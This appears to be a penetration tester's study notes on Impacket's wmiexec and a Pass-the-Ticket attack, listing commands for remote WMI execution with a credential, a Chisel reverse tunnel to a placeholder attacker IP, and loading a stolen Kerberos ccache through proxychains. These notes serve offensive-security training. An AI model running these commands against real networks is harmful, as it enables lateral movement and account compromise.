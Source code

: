 ```yaml
---
tags:
  - PtT
---
```

Generates:
	[4688: A new process has been created](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4688)

WMIexec utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules.
>Can still be detected by modern AV and EDR systems
# Example Usage
```shell-session
$ wmiexec.py Cry0l1t3:'P455w0rD!'@10.129.201.248 "hostname"

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
ILF-SQL-01
```
# Pass the Ticket
To execute this attack, we need to proxy traffic via `MS01` with a tool such as [[File Transfer#Chisel|Chisel]] and #proxychains and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

- On attack host:
```shell-session
$ sudo ./chisel server --reverse
```
- On Windows host:
```cmd-session
> chisel.exe client <ATTACKER-IP>:8080 R:socks
```
- Set the environment variable `KRB5CCNAME` with the path of targeted user's ccache file:
```shell-session
$ export KRB5CCNAME=/Path/to/krb5cc_file
```
- Finally, to use the Kerberos ticket, specify the target machine name (not IP!) and use `-k`. If prompted for a password, include `-no-pass`.
```shell-session
$ proxychains impacket-wmiexec dc01 -k [-no-pass]
```

Once the Kerberos ticket (as `ccache`) is loaded and verified with [[klist]], we can perform the above command